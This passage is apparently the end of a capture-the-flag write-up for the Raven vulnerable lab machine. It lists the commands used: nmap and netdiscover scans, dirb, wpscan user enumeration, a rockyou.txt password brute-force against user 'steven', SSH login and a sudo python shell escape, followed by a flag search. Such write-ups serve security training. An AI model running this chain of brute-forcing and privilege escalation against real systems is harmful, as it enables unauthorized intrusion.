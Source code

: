 
![Flags!](img/raven1-13.png)


### Commands and tools

#### Commands used to exploit the machine

```
sudo netdiscover -i eth1 -r 192.168.56.102/24
sudo nmap -p- -A 192.168.56.104
dirb http://192.168.56.104
wpscan --url http://192.168.56.104/wordpress --enumerate u --force --wp-content-dir wp-content
echo "192.168.56.104	local.raven" sudo >> /etc/hosts
wpscan --url http://192.168.56.104/wordpress --passwords /usr/share/wordlists/rockyou.txt  --user steven -t 25
ssh steven@192.168.56.104
sudo python -c 'import os; os.system("/bin/sh")'
find . -name flag*.txt 2>/dev/null
```

#### Tools

+ [dirb](dirb.md).
+ [netdiscover](netdiscover.md).
+ [nmap](nmap.md).
+ [wpscan](wpscan.md).


